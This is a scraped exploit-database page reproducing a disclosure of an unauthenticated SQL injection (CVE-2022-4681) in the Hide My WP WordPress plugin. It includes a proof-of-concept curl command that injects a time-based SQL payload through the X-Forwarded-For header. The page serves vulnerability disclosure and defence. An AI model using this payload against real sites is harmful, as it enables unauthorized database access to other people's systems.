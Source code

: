 ```yaml
---
title: WordPress Hide My WP SQL Injection exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:177519&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2024-03-12
fetch_date: 2025-10-04T12:09:50.934279
---
```


# WordPress Hide My WP SQL Injection exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for WordPress Hide My WP SQL Injection CVE-2022-4681

2024-03-11 | CVSS 9.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:177519
# Exploit Title: Wordpress Plugin Hide My WP < 6.2.9 - Unauthenticated SQLi
# Publication Date: 2023-01-11
# Original Researcher: Xenofon Vassilakopoulos
# Exploit Author: Xenofon Vassilakopoulos
# Submitter: Xenofon Vassilakopoulos
# Vendor Homepage: https://wpwave.com/
# Version: Hide My WP v6.2.8 and prior
# Tested on: Hide My WP v6.2.7
# Impact: Database Access
# CVE: CVE-2022-4681
# CWE: CWE-89
# CVSS Score: 8.6 (high)

## Description

The plugin does not properly sanitize and escape a parameter before using it in a SQL statement via an AJAX action available to unauthenticated users, leading to a SQL injection.

## Proof of Concept

curl -k --location --request GET "http://localhost:10008" --header "X-Forwarded-For: 127.0.0.1'+(select*from(select(sleep(20)))a)+'"
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)